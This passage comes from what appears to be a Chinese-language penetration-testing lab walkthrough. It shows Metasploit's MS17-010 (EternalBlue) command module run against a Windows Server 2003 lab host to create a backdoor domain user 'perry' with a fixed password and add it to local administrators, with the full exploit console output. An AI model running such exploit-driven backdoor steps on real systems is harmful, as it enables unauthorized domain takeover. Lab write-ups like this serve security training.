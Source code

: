 

照理来说，前面创建后门的时候创建的perry用户是再GOD下的，所以这里应该也可以不建，但保险起见也可以再建一次

> net user /add perry Aa123456 /domain
>
> net localgroup administrators /add god\perry

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command net user /add perry Aa123456 /domain
command => net user /add perry Aa123456 /domain
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87a02ae0
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "net user /add perry Aa123456 /domain":

The request will be processed at a domain controller for domain god.org.



[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command net localgroup administrators /add god\\perry
command => net localgroup administrators /add god\perry
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87a26cc8
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "net localgroup administrators /add god\perry":
```